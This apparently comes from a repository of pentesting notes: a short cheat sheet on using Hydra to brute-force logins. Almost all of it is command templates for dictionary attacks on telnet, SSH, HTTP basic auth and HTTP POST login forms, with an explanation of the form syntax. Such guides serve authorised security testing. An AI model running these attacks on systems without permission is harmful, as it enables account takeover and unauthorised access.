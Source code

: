 # Hydra

Used to brute-force web-login forms

## Info

Help:
```bash
man hydra
```
or
```bash
hydra -h
```

Available modules: See Supported Services in help

Info on a module:
```bash
hydra -U <module-name>
```


## Attack

Dictionary attack:
```bash
hydra -L users.txt -P pass.txt <service://server> <options>
```

Or with single user/pass combinations
```bash
hydra -l <username> -p <password> <service://server> <options>
```

Example on telnet-server:
```bash
hydra -L users.txt -P pass.txt telnet://target.server
```

### Password protected web-resource:
```bash
hydra -L users.txt -P pass.txt http-get://localhost/
```

### HTTP login-form:
```bash
hydra -L users.txt -P pass.txt <server-url> http-post-form "/login.php:<user-param-name>=^USER^&<password-param-name>=^PASS^:<string-invalid>"
```
* users.txt contains usernames to test
* pass.txt contains passwords to test
* <server-url> is the url to the server
* /login.php is the url to the login-form on the server
* <user-param-name> is the name of the user-field in the form
* <password-param-name> is the name of the password-field in the form
* <string-invalid> is the string in the response to detect for a failed login-attempt
* You can use S=<string-valid> to detect successful login-attempts instead


### SSH

hydra <ip-address> ssh -L users.txt -P pass.txt



